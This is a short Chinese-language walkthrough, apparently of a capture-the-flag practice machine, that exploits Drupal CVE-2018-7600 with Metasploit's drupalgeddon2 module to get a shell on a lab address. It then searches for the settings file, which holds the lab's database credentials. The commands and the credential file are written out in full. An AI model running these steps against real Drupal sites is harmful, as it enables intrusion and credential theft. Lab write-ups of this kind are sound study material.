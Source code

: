 80 端口是 Drupal CMS，应该是 CVE-2018-7600 但是我用 nuclei 没扫出来🤔

用 metasploit 的 drupal_drupalgeddon2 模块直接拿到 shell

```shell
use unix/webapp/drupal_drupalgeddon2
set RHOSTS 192.168.124.5
run
...
meterpreter > shell -it
```

网站根目录 flag1.txt 中有提示

```text
Every good CMS needs a config file - and so do you.
```

根据提示搜一下配置文件

```shell
find . -name settings*
# ./sites/default/settings.php
```

```text
<?php

/**
 *
 * flag2
 * Brute force and dictionary attacks aren't the
 * only ways to gain access (and you WILL need access).
 * What can you do with these credentials?
 *
 */

$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
...
```
<div class="src-block-caption">
  <span class="src-block-number">Code Snippet 1:</span>
  settings.php
</div>

